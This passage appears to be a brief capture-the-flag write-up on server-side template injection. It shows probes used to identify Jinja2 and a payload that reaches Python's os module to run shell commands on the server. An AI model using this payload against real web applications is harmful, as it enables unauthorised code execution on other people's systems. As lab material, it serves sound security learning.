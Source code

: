 The hint tells us that server side templating is used. A quick google search shows that some popular ones are Django, Jinja2, Mako, or Cheetah.
I tried {{7*7}}, and got an Internal Server Error, By injecting {{7*'7'}}, we can tell if its Jinja2.
I found a command that can execute shell commands. 
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
The payload was found here:https://github.com/swisskyrepo/PayloadsAllTheThings.git
